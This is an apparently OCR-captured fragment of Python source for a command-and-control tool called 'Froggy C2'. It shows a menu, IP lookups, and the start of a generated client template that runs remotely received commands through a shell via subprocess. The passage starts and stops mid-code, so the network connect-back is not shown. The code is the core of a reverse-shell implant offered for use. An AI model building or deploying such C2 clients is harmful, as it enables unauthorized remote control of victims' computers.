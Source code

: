 ```
            break


        print(response)


    client_socket.close()




def print_frog_ascii():
    print("""
███████╗██████╗  ██████╗  ██████╗  ██████╗██╗   ██╗     ██████╗██████╗ 
██╔════╝██╔══██╗██╔═══██╗██╔════╝ ██╔════╝╚██╗ ██╔╝    ██╔════╝╚════██╗
█████╗  ██████╔╝██║   ██║██║  ███╗██║  ███╗╚████╔╝     ██║      █████╔╝
██╔══╝  ██╔══██╗██║   ██║██║   ██║██║   ██║ ╚██╔╝      ██║     ██╔═══╝ 
██║     ██║  ██║╚██████╔╝╚██████╔╝╚██████╔╝  ██║       ╚██████╗███████╗
╚═╝     ╚═╝  ╚═╝ ╚═════╝  ╚═════╝  ╚═════╝   ╚═╝        ╚═════╝╚══════
""")
    print("C2 Server")




def main():
    print_frog_ascii()
    print("1. Type 1 to start listening")
    print("2. Type 2 to spawn a client and start listening")


    choice = input(">> ")
    if choice == "1":
        start_listening()
    elif choice == "2":
        local_ip = get_local_ip()
        if local_ip is None:
            print("Wi-Fi adapter not found. Please make sure it is connected and try again.")
            sys.exit(1)
        public_ip = get_public_ip()


        print("Local IP: ", local_ip)
        print("Public IP: ", public_ip)


        client_template = '''
import socket
import subprocess


def execute_command(command):
    try:
        process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        stdout, stderr = process.communicate()
        stdout = stdout.decode('utf-8').strip()
        stderr = stderr.decode('utf-8').strip()
        return stdout + stderr
    except Exception as e:
        return str(e).encode('utf-8')


```